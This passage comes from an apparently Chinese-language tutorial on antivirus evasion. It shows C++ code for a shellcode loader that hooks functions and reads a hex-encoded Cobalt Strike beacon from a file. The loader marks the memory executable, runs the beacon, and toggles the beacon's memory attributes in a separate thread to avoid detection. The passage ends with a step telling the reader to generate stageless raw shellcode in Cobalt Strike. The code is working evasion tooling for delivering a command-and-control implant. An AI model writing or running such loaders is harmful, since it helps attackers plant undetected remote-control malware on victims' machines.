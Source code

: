 ```cpp
	Hook(); //开始Hook

	//创建线程
	HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
	CloseHandle(hThread1);


	std::ifstream file("beacon_hex.txt");  //打开指定文件
	size_t size;  //定义文件内容的字节数
	string contents; //定义文件内容

	//判断文件是否打开成功
	if (file.is_open()) {
		std::stringstream buffer; //创建一个stringstream对象
		buffer << file.rdbuf();  //将文件的内容复制到该流中
		contents = buffer.str();  //将stringstream对象的内容转换string,并将其存储在contents中

		size = contents.length() / 2;  //由于两个十六进制相当于一个字节,因此文件内容长度需除以2
		file.close();  //关闭文件
	}

	// 为shellcode申请一块内存
	shellcode_addr = VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_READWRITE);

	// 调用函数将十六进制字符串转换为字节型数组
	hexStringToBytes(contents, (unsigned char *)shellcode_addr, size);

	// 修改内存属性为可读写
	VirtualProtect(shellcode_addr, size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
	
	// 执行shellcode
	(*(int(*)()) shellcode_addr)();
	
	// 解除Hook
	UnHook();

	return 0;
}
```



## 运行测试

打开Cobalt Strike生成Raw格式的shellcode文件，注意要选择Stageless

![image-20230621224537305](利用异常实现免杀/image-20230621224537305.png)	
